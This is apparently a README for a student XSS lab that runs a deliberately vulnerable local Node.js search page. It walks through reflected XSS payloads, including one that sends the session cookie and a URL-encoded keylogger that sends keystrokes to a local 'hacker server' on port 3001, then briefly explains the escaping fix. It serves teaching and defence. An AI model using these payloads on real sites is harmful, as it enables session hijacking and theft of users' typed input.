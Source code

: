 # Cross-site Scripting (XSS)
Cross-site scripting vulnerabilities in action.

## Requirements
* [Node.js](https://nodejs.org/en/):
  * Mac/Linux - Use [nvm](https://github.com/creationix/nvm) to install node

## Getting Started
Mac users, open Terminal.
In your terminal program, use git to download the project:
```bash
git clone https://github.com/fnev081299/CT6043_XSS.git
```

Go to xss directory:
```bash
cd xss
```

Install dependencies using npm:
```bash
npm install
```

Run the local web server using Node.js:
```bash
node server.js
```
If successful, message: `Server at localhost:3000` is shown. The server is is now listening for requests at [localhost:3000](http://localhost:3000/).

## Test the server site:
Enter something in the textbox then press enter. Notice how the search query you entered is shown in the page.


## XSS:
[OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) for more information.


## Testing:
Open the developer tools in browser and open the "Console" sub-tab.

Copy/paste and run:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'XSS!\')">');
```

Paste the output into the address bar:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('XSS!')%22%3E
```
Or click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('XSS')%22%3E).

You should see an alert :: "Potential XSS!".


## Vulnerability
Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

The cookie named "connect.sid" is a session cookie set by the local web server. Repeat the steps from the "Testing" section, but with:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

The session cookie is printed in an alert pop-up.

Start the "Hacker Server":
```bash
node hacker_server.js
```

Steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the hacker server for the view of the cookie. 

Encode the above HTML and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

## Mitigation
At the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML. In the `public/index.html` file, change the "Results" (the `q` parameter) strictly as text content. Uncomment the safe "Results" and comment out the other to see the secure versrion.
